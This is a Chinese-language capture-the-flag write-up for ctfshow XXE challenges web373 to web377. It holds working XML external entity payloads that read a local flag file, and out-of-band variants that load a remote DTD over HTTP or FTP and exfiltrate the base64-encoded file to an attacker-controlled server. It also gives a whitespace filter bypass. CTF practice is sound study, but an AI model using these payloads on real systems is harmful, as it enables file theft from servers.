

## web373

用burp post下面的数据

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
	<!ENTITY xxe SYSTEM "file:///flag">
]>
<root><ctfshow>&xxe;</ctfshow></root>
```

## web374

无回显XXE

可以用python构造一个静态服务器 (这里监听和静态服务是一个端口)

`python3 -m http.server 8000`

payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://xxx.xx.xxx.78:8000/test.dtd">%xxe;]>
```

test.dtd文件:

(flag必须base64这样编码才打得通,不知道是不是服务器的问题=.=)

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://xxx.xx.xxx.78:8000/?x=%file;'>">
%eval;
%exfiltrate;
```

服务器端数据base64解码即可


## web375 376

存在过滤,用空格绕过即可

payload:

```xml
<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://xxx.xx.xxx.78:8000/test.dtd"> %xxe;]>
<root><ctfshow>&xxe;</ctfshow></root>
```


## web377

禁用了http,可以考虑别的协议,像ftp等

搭建ftp 服务 python -m pyftpdlib -p 8001 (打的时候把安全组关了)

开http服务监听 python3 -m http.server 8000

payload:

```xml-dtd
<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "ftp://xxx.xx.xxx.78:8001/test.dtd"> %xxe;]>
<root><ctfshow>&xxe;</ctfshow></root>
```

test.dtd

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://xxx.xx.xxx.78:8000/?x=%file;'>">
%eval;
%exfiltrate;
```



